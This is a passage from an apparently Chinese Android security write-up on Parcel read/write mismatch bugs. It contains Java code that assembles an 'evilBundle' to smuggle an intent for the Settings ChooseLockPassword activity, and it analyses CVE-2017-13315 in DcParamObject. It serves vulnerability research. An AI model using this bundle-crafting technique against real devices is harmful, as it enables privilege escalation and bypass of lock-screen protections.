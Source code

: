 ```
        pcelData.writeString(null); // mType is null
        pcelData.writeInt(0x10000000); // Flags
        pcelData.writeString(null); // mPackage is null
        pcelData.writeString("com.android.settings");
        pcelData.writeString("com.android.settings.password.ChooseLockPassword");
        pcelData.writeInt(0); //mSourceBounds = null
        pcelData.writeInt(0); // mCategories = null
        pcelData.writeInt(0); // mSelector = null
        pcelData.writeInt(0); // mClipData = null
        pcelData.writeInt(-2); // mContentUserHint
        pcelData.writeBundle(null);
        ///////////////////////////////////////
        pcelData.writeString("Padding-Key");
        pcelData.writeInt(0); // VAL_STRING
        pcelData.writeString("Padding-Value"); //       
        int length  = pcelData.dataSize();
        Log.d(TAG, "length is " + Integer.toHexString(length));
        bndlData.writeInt(length);
        bndlData.writeInt(0x4c444E42);
        bndlData.appendFrom(pcelData, 0, length);
        bndlData.setDataPosition(0);
        evilBundle.readFromParcel(bndlData);
        Log.d(TAG, evilBundle.toString());
        return evilBundle;
   }
```



### 0x03 案例 2：CVE-2017-13315



五月份修复的 CVE-2017-13315 出现在 DcParamObject 类中，对比 writeToParcel 和 readFromParcel 函数.



```
public void writeToParcel(Parcel dest, int flags) {
        dest.writeLong(mSubId);
    }
    private void readFromParcel(Parcel in) {
        mSubId = in.readInt();
    }
```



int 类型的成员变量 mSubId 写入时为 long，读出时为 int，没有可借用的其他成员变量，似乎在 Bundle 中布置数据更有挑战性。但受前面将恶意 KEY_INTENT 置于 ByteArray 中启发，可以采用如下方案。





[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180530175404-6345dfda-63ef-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180530175404-6345dfda-63ef-1.png)
